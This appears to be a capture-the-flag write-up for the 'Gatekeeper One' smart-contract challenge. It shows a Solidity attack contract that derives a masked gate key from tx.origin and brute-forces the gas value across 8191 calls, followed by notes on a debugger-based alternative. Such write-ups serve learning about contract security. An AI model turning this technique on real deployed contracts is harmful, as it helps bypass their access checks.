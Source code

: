 ```javascript
contract GatekeeperOneAttack {
    function attack(address addr) public {
        bytes8 gate_key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        uint base_gas = 100000;
        bool success;
        for (uint i = 0; i < 8191; i++) {
          (success, ) = addr.call{ gas:base_gas+i }(abi.encodeWithSignature("enter(bytes8)", gate_key));
          if (success) {
            break;
          } 
        }
        require(success);
    }
}
```

This gas cost for this is quite expensive. Ideally, you would want to do this locally, but my setup is not working.

Method 1 (used here): Bruteforce the `gasleft()` value.

Method 2 (attempted): Go to Remix and use the debugger for the transaction, then see what's the remaining gas when the opcode gas is called. Finally, reverse engineer the initial gas amount to put into the call.
